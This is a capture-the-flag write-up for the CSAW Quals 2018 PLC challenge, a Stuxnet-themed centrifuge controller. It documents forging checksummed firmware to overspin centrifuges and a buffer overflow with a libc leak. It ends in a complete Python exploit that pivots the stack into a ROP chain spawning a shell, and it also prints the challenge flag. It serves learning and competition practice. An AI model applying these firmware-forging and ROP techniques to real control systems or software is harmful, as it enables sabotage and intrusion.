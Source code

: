 ```yaml
---
layout: post
title: CSAW Quals 2018 | PLC Writeup
author: adamt
---
```


CSAW PLC Writeup:
Didn't get to solve it during the actual competition, but definitely recommend giving it a shot, very fun challenge.


enjoy the flag `flag{1s_thi5_th3_n3w_stuxn3t_0r_jus7_4_w4r_g4m3}`

The challenge was basically a twist on the well known stuxnet virus. It contained 6 sections that built on each other and was a generally fun and interesting challenge.

## Step 1
### Execute the default firmware
By looking at the provide source code we can see that by entering `E` the program will execute the currently loaded firmware
        
## Step 2
### Create our own custom checksummed firmware
This was one of the harder/longer parts of the challenge. To solve this you had to reverse engineer both the custom `shellcode` used by the centrifuge system, and understand what each command does, as well as reverse engineer the checksum algorithm to digitally sign our own payloads.

Through spending hours stairing at the debugger and following the code flows of different inputs we managed to discover the following commands the firmware would accept
<br />

* Reset RPM - 0x30
* Clear Material - 0x31
* Write one char to new material - 0x32 `letter`
* RPM Override off = 0x33 0x30
* RPM Override on = 0x33 0x31
* Decrement RPM = 0x36
* Increment RPM = 0x37
* DEBUG ON = 0x38 0x31
* DEBUG OFF = 0x38 0x30
* EXIT = 0x39

And for custom checksum, we ported the assembler code directly into python instead of trying to understand and recreate it from scratch.

Also a firmware must be 0x400 characters long and in the format of
'FW' + checksum + version + commands
Where the version is 2 numbers (eg 12)

## Step 3
### Exceed Normal Centrifuge Speeds
With the knowledge gained from above, to spin the centrifuges to destruction, we enabled the RPM override, and then calling Increment RPM until the RPM was over a certain threshold. This was pretty trivial with our knowledge gained from the previous step.

## Step 4
### Specify some "extra" dangerous materials
This part of the challenge stumped me for over an hour, I didn't know what it meant by `"extra" dangerous materials`.
Using the knowledge from above we could rename the materials used in the centrifuge by converting a string "HELLO" > "2H2E2L2L2O". Simplying putting the digit 2 between each char.
We tried renaming the material to all sorts of things (yes i did google `most dangerous nuclear material` and other interesting items and yes I'm definetely on a watchlist somewhere)
List of things we tried

* Uranium
* extra
* "extra"
* "extra" dangerous

Eventually someone in our team asked if we had tried specifying an extra long string....
nuff said, specify a string with like 100 character length and we get the points (no points just a tick yay)


## Step 5
### JK lol get flag and cat shell
Next step. <br />
We had to put everything we had just learnt about this program, and try to somehow get shell.<br />

I forgot to mention a few things..

* PIE/ASLR/NX Are enabled
* Execve in LIBC is corrupted so we can't just do a simple ret2libc
* So we must somehow create a ROP chain that calls the execve syscall

We found that we were able to control RIP through a lethal `call edx` gadget. However this would only give us a single gadget in which we had to get shell.<br />
The trick is to pivot the shell through a nice `add rsp` gadget into a different buffer we control. <br /> <br />

The two buffers we control are 
* The original terminal which has a 32 character size
* The name buffer we control with our command inputs

We can also get a leak because right after our name buffer, is a pointer to an address in libc. So if we fill our buffer with printable characters, we can print out the status/name of our centrifuge, and get an address leak. <br />

With a libc leak the rop chain is trivial

* pop rax
* 0x3b
* pop rdi
* 0
* pop rdx
* 0
* syscall
* shell xx

So if we place the rop chain in our main buffer after "E". The program only looks at the E and called execute, which will then execute our pivot gadget and pivot to our rop chain after the letter "E". perfect.

lovely

> 14 hours of fun

My final python script

```python
from interact import *
import struct
import time


# globals
WRITE = "2"
RPM_ADD = "7"
EXIT = "9"
RPM_OVERRIDE = "31"
DEBUG = "81"

p = Process()
time.sleep(5) #bugs?
# helper functions
def unpack(data, fmt="<Q"):
    return struct.unpack(fmt, data.ljust(8, "\x00"))[0]


def pack(data, fmt="<Q"):
    return struct.pack(fmt, data)


def toWriteCommand(string):
   return WRITE + WRITE.join(list(string))

def generate_checksum(string):
    count = 2
    scount = 0
    rbp10 = 0
    while count <= 0x1ff:
        eax = rbp10
        eax <<= 0xc
        edx = eax

        eax = rbp10
        eax >>= 0x4
        eax |= edx

        rbp10 = eax + (count & 0xffff)

        rbp10 &= 0xFFFF
        eax = ord(string[scount]) + 16*16*ord(string[scount+1])
        rbp10 ^= eax
        count += 1
        scount += 2

    return chr(rbp10 & 0xff) + chr(rbp10 >> 8)

def gen_fw(rpm, overflow):
    commands =  "12" # version
    commands += DEBUG
    commands += RPM_OVERRIDE # so no issues
    commands += toWriteCommand(overflow) # material cmd
    commands += (rpm * RPM_ADD) #overflow rpm
    commands += EXIT
    commands = commands.ljust(0x400 - 4, '\x00')
    # Checksum the above commands
    checksum = generate_checksum(commands)

    # return completed firmware
    return "FW" + checksum + commands

p.sendline("U") #upload firewarm
fw = gen_fw(63, "A" * 68 + "XXXXXXXX")
p.send(fw)
p.sendline("E") # execute firwware
p.sendline("S") # Show status for libc leak


print p.readuntil("XXXXXXXX") # Read until end of our payload
leak = unpack(p.readuntil("\n").strip())
libc_base = leak - 0x36ec0 #leak address and calc offset to base of libc
print "Libc leak ", hex(libc_base)


pivot = pack(libc_base + 0xc96a6) # add rsp, 0x38

rop = "A" * 15
rop += pack(libc_base + 0x21102) #pop rdi
rop += pack(libc_base + 0x18cd57) #binsh

rop += pack(libc_base + 0x33544) #pop rax
rop += pack(0x3b) #execve syscall

rop += pack(libc_base + 0x202e8) #pop rsi
rop += pack(0)

rop += pack(libc_base + 0x1b92) #pop rdx
rop += pack(0)

rop += pack(libc_base + 0xbc375) #syscall


p.sendline("U") #upload firmware
fw = gen_fw(80, ("X" * 68) + pivot)
p.send(fw)
p.sendline("E" + rop)

p.interactive()
```


